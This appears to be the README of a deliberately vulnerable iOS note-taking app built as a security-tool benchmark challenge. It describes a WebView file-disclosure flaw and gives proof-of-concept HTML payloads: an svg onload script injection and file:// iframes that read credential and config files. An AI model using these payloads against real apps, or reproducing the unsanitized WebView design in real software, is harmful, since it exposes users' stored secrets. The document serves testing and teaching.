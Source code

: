 # oxo-ios-ben12 ShareNote - iOS Internal file access from HTML / Webkit

## Challenge Details

### Description
A modern note-taking application for iOS, "ShareNote," allows users to create rich HTML-formatted notes with templates and multimedia content. The application features a clean SwiftUI interface and supports various note types including meeting notes, project plans, and reports. However, the HTML rendering engine contains a critical security flaw that allows attackers to access local files from the iOS app's sandbox using Server-Side Request Forgery (SSRF) techniques. Can your tool identify the missing input validation and URL scheme restrictions?

### Vulnerability Type and Category
- **Type:** Server-Side Request Forgery (SSRF) - Local File Disclosure
- **Category:** Injection Flaws

### Weakness (CWE)
- **CWE-918:** Server-Side Request Forgery (SSRF)

### Platform
iOS (Swift/SwiftUI)

### Difficulty
Medium

## Vulnerability Overview
The application's `NoteDetailView` class renders user-provided HTML content directly in a WKWebView without proper sanitization or URL scheme restrictions. While the app provides legitimate templates for note-taking, it allows unrestricted HTML content that can exploit the `file://` protocol to access local files within the iOS app's sandbox. This design flaw enables attackers to read sensitive application data, configuration files, and any documents stored in the app's directory structure.

**Key Vulnerability Points:**
- No HTML input sanitization
- Unrestricted URL scheme access in WebView
- Direct file:// protocol access enabled
- No Content Security Policy (CSP) implementation
- Sensitive data stored in plain text files

## Real-World Context
This vulnerability mirrors the actual security issue discovered in the Nextcloud iOS application (HackerOne Report #746541), where HTML content could access local files using iframe elements with file:// URLs. The vulnerability was classified as Medium severity and demonstrates how mobile applications can be vulnerable to SSRF attacks when handling user-generated content.

## Exploitation Vector
1. **Content Creation:** An attacker creates a note with malicious HTML content containing SSRF payloads.
2. **Path Discovery:** Using JavaScript injection (`<svg/onload=document.write(document.location)>`), the attacker discovers the app's file system paths.
3. **File Access:** The attacker crafts iframe elements with `file://` URLs to access sensitive files in the app's Documents directory.
4. **Data Exfiltration:** Sensitive information including credentials, API keys, and configuration data is displayed within the note interface.

## Proof of Concept Payloads

### 1. Path Discovery
```html
<svg/onload=document.write(document.location)>
```
**Result:** Reveals the complete file system path of the application.

### 2. Credential File Access
```html
<iframe src="file:///var/mobile/Containers/Data/Application/[APP-ID]/Documents/secret_credentials.txt" 
        width="100%" height="400" style="border: 2px solid red;">
</iframe>
```
**Result:** Displays the complete contents of the credentials file.

### 3. Configuration File Access
```html
<iframe src="file:///var/mobile/Containers/Data/Application/[APP-ID]/Documents/app_config.json" 
        width="100%" height="300" style="border: 2px solid orange;">
</iframe>
```
**Result:** Exposes application configuration and internal file paths.

### 4. Combined Multi-File Attack
```html
<h1 style="color: red;">🚨 SSRF Attack Demonstration</h1>
<h2>1. Secret Credentials:</h2>
<iframe src="file://[DOCS_PATH]/secret_credentials.txt" width="100%" height="200"></iframe>
<h2>2. App Configuration:</h2>
<iframe src="file://[DOCS_PATH]/app_config.json" width="100%" height="150"></iframe>
```
**Result:** Simultaneous access to multiple sensitive files in a single note.

## Build Instructions
This is a standard Xcode project built with SwiftUI for iOS 15.0+.

### Prerequisites
- Xcode 14.0 or later
- iOS 15.0+ Simulator or physical device
- macOS 12.0+ for development

### Building and Running
1. Open `sharenote.xcodeproj` in Xcode
2. Select your target device (Simulator or physical device)
3. Build and run the project (`Cmd + R`)
4. The app will automatically create vulnerable files in the Documents directory

## Testing the Vulnerability

### Step-by-Step Exploitation
1. **Launch ShareNote** in iOS Simulator or on a device
2. **Create a new note** by tapping the "+" button
3. **Enter malicious HTML** using one of the PoC payloads above
4. **Save the note** with any title
5. **Open the created note** to trigger the SSRF attack
6. **Observe** how local files are rendered within the WebView

### Expected Results
- ✅ Path discovery reveals app sandbox location
- ✅ Secret credentials are displayed in the note
- ✅ Configuration file contents are accessible
- ✅ No security warnings or restrictions are enforced
